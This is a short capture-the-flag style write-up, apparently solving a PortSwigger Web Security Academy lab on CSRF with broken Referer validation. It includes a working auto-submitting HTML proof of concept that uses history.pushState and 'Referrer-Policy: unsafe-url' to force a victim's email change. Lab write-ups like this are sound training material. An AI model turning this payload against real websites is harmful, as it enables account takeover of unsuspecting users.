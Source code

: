 # Lab: CSRF with broken Referer validation

Intercept an email change request and send it to the repeater. Modify the referer and notice that as long as the website domain is part of the string, even though the full domain string is actually different.

Use the following exploit to trigger the vulnerability:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?acb61fad1ec8adb5c09908e900440055.web-security-academy.net')</script>
    <form action="https://acb61fad1ec8adb5c09908e900440055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

This uses the `history.pushState()` function to include the target site domain as a query string, satisfying the referer checks.

The exploit also needs the following set in the "Head" section in order for the browser to include the query string: `Referrer-Policy: unsafe-url`